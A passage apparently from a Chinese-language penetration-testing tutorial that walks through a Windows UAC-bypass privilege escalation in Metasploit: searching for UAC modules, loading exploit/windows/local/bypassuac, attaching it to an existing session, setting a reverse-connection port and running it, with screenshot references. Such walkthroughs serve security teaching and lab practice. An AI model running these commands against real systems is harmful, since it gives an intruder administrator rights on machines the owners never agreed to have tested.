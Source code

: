 ```
search uac  ##搜索
```

<img src="assets/UnCfJ2ydZuRaYSh.png" alt="image-20230329091803523" style="zoom: 50%;" />

#### 2.2.1.4. 尝试使用UAC绕过提权

```
use exploit/windows/local/bypassuac   ##选择bypass
sessions         ##选择会话
set session 1    ##设定会话
set lport 5555   ##设定反弹端口，这里不设置也可以，但是有时候直接反弹回来，会出现反弹不成功的情况。
run  ##执行
```

![image-20230329092032982](assets/wzijGotCp672PFd.png)
